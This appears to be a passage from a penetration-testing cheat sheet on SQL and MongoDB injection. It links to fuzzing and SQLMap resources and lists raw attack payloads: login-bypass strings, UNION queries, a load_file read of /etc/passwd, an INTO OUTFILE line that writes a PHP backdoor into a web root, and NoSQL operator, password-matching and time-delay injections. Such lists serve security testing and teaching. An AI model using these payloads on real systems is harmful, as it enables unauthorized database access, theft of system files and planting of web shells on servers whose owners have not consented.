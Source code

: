 [SQL Injection](https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/sql-injection)

[SQLMap tricks for advanced SQL injeciton](https://www.trustwave.com/Resources/SpiderLabs-Blog/Sqlmap-Tricks-for-Advanced-SQL-Injection/)

###### Examples

```
username'--
1'||'1'<'2
'OR 1=1;--
'OR 1=1;#
'OR 1=1 LIMIT 1; #
AND 1 = 2 UNION SELECT 1,2,3,4,5
1'1
1 exec sp_ (or exec xp_)
1 and 1=1
1' and 1=(select count(*) from tablenames); --
1 or 1=1
1' or '1'='1
1or1=1
1'or'1'='1
fake@ema'or'il.nl'='il.nl
1 union all select 1,2,3,4,load_file("/etc/passwd"),6
1 union all select 1,2,3,4,"<?php ?>",6 into outfile '/var/www/html/backdoor.php'
```

##### MSSQL

> ###### Resources

[PenTest & Hack MSSQL](http://travisaltman.com/pen-test-and-hack-microsoft-sql-server-mssql/)

[SQL Injection Cheatsheet MSSQL](https://www.gracefulsecurity.com/sql-injection-cheat-sheet-mssql/)

##### MongoDB

> ###### Resources

[NoSQL Map](https://github.com/codingo/NoSQLMap)

> ###### Examples

```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
```
